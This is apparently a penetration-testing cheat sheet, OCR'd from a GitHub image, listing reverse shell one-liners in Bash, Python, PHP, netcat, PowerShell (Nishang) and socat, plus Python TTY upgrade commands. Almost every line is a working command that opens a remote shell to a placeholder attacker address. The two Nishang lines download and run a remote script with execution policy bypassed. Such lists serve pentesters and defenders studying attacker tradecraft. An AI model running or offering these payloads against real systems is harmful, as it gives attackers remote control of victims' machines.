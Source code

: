 # Different Shells
## Bash
bash -i >& /dev/tcp/<IP Address>/<Port> 0>&1
## Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP Address>",<Port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
## PHP
php -r '$sock=fsockopen("<IP Address>",<Port>);exec("/bin/sh -i <&3 >&3 2>&3");'
## NC 1
nc -e /bin/sh <IP Address> <Port>
## NC 2
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP Address> <Port> >/tmp/f
## NC Windows
nc  <IP Address> <Port> -e cmd.exe
## Powershell - Nishang 1
powershell iex (New-Object Net.WebClient).DownloadString('http://<IP Address>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -<IP Address> -Port <Port>
## Powershell - Nishang 2
powershell.exe -exec Bypass -C "iex (New-Object Net.WebClient).DownloadString('http://<IP Address>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -<IP Address> -Port <Port>"
## SOCAT 1
sudo socat file:`tty`,raw,echo=0 tcp-listen:<Port>
## SOCAT 2
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP Address>:<Port>
# TTY Upgrades
## PYTHON
 * python -c 'import pty;pty.spawn("/bin/bash")'
 * python3 -c 'import pty;pty.spawn("/bin/bash")'
